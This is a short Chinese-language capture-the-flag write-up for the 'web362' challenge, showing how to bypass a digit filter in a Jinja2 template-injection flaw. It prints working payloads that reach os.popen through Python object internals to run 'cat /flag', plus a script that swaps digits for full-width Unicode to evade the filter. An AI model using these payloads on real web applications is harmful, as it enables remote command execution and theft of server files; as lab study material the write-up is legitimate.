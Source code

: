 还是需要理解 一旦出现过滤 这种直接复制粘贴是没有用的 最好在 python中多看看

## web362   【过滤数字】

这里过滤了数字

我们有两个方法

### 第一个通过 计算长度来实现

```handlebars
{% set a='aaaaaa'|length %}{{ ().__class__.__base__.__subclasses__()[a] }}
```

但是这个需要拼接很多

所以放弃

### 第二个使用脚本输出另一个数字来绕过

```cobol
def half2full(half):  
    full = ''  
    for ch in half:  
        if ord(ch) in range(33, 127):  
            ch = chr(ord(ch) + 0xfee0)  
        elif ord(ch) == 32:  
            ch = chr(0x3000)  
        else:  
            pass  
        full += ch  
    return full  
t=''
s="0123456789"
for i in s:
    t+='\''+half2full(i)+'\','
print(t)
 
```

```csharp
'０','１','２','３','４','５','６','７','８','９',
 
１３２
```

```handlebars
/?name={{"".__class__.__base__.__subclasses__()[１３２].__init__.__globals__.popen("cat /f*").read()}}
```

### 使用没有数字的payload

```handlebars
?name={{lipsum.__globals__['os'].popen("cat /flag").read()}}
```

